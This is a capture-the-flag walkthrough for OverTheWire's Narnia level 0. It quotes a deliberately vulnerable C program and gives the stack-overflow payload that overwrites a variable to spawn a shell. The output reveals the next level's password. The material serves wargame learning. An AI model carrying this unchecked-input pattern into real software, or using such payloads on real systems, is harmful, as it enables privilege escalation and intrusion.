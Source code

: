 ## Narnia0

-> simple buffer overflow
Source
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Buffer overflow, probably the *val* variable is located after *buf* on the stack.
Using the string *AAAAAAAAAAAAAAAAAAAABBBB* modifies *val* to 0x42424242; so we have to write 0xdeadbeef instead of 0x42424242.
Because of little-endian architecture, we first have to write 0xde, then 0xad etc.

```bash
narnia0@narnia:/narnia$ (printf "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;)| ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1

cat /etc/narnia_pass/narnia1
efeidiedae
```

## Narnia1 - password: efeidiedae

-> using an environment variable
```bash
ssh narnia1@narnia.labs.overthewire.org -p 2226
```
